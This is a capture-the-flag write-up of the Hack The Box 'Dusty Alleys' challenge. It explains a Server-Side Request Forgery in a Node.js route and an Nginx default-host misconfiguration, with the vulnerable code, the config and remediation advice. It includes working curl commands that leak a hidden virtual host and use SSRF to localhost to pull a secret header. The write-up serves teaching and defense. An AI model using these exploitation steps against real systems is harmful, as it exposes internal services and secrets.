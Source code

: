 # Hack The Box: Dusty Alleys (Medium)

## Summary

This write-up details the discovery and exploitation of a Server-Side Request Forgery (SSRF) vulnerability in the "Dusty Alleys" web challenge on Hack The Box. The bug was caused by insecure handling of user-supplied input passed to a server-side HTTP fetch function. Additionally, Nginx misconfiguration and an information-leaking endpoint enabled virtual host discovery, which was crucial for exploiting the SSRF.

---

## Target

```
http://94.237.59.38:52577
```

---

## Bug Type: Server-Side Request Forgery (SSRF)

---

## Vulnerable Route: `/guardian`

### Vulnerability Classification

* CWE-918: Server-Side Request Forgery (SSRF)

---

## Root Cause Analysis

The application is built using **Node.js** and the **Express** framework. Below is the relevant vulnerable source code:

### `guardian.js`

```js
const node_fetch = require("node-fetch");
const router = require("express").Router();

router.get("/guardian", async (req, res) => {
  const quote = req.query.quote;

  if (!quote) return res.render("guardian");

  try {
    const location = new URL(quote);
    const direction = location.hostname;
    if (!direction.endsWith("localhost") && direction !== "localhost")
      return res.send("guardian", {
        error: "You are forbidden from talking with me.",
      });
  } catch (error) {
    return res.render("guardian", { error: "My brain circuits are mad." });
  }

  try {
    let result = await node_fetch(quote, {
      method: "GET",
      headers: { Key: process.env.FLAG || "HTB{REDACTED}" },
    }).then((res) => res.text());

    res.set("Content-Type", "text/plain");
    res.send(result);
  } catch (e) {
    return res.render("guardian", {
      error: "The words are lost in my circuits",
    });
  }
});
```

### Why This Is SSRF (and Not XSS)

* The user input (`req.query.quote`) is passed directly into a **server-side `node_fetch()` call**.
* This results in the **server making a request** to whatever URL the user provides.
* The response is then **returned directly to the user**, potentially exposing internal services.

This is a **classic SSRF pattern**.

#### Not XSS because:

* There is no rendering of input into an HTML/JS context.
* No reflection of user input into a web page.
* The only use of user input is in a backend HTTP request.
* Additionally, no user input is enclosed inside script tags or used in the DOM, which would be required for Cross-Site Scripting (XSS) to be exploitable.

---

## Server Configuration Analysis

The `default.conf` Nginx config:

```nginx
server {
    listen 80 default_server;
    server_name alley.$SECRET_ALLEY;

    location /think {
        proxy_pass http://localhost:1337;
    }
}

server {
    listen 80;
    server_name guardian.$SECRET_ALLEY;

    location /guardian {
        proxy_pass http://localhost:1337;
    }
}
```

### Exploitable Behavior

* The Nginx `default_server` handles requests **with no Host header**.
* `/think` route **returns request headers** — a potential info leak.

---

## Exploitation Steps

### Step 1: Leak the SECRET\_ALLEY using HTTP/1.0 request

```bash
curl -H "Host:" --http1.0 http://94.237.59.38:52577/think
```

#### Response:

```json
{
  "host": "alley.firstalleyontheleft.com",
  ...
}
```

### Step 2: Exploit SSRF with virtual host

```bash
curl -H "Host: guardian.firstalleyontheleft.com" \
"http://94.237.59.38:52577/guardian?quote=http://localhost:1337/think"
```

#### Response:

```json
{
  "key": "HTB{dusty_alley_flag}",
  ...
}
```

---

## Impact

* Access to internal service running on `localhost`
* Exfiltration of sensitive internal headers (`Key: FLAG`)
* Could be escalated further in real-world apps (e.g., metadata API, Redis, etc.)

---

## Remediation

* Never pass user input directly into fetch/curl without strict validation
* Avoid sending sensitive data (like secrets) in headers based on user input
* Restrict internal-only fetchers using allow-lists
* Remove default Nginx virtual hosts or separate public and internal interfaces



---

## Tags

`SSRF` `Nginx` `Bug Bounty` `CTF` `HackTheBox` `node-fetch` `Header Injection` `Virtual Host` `Internal Service`

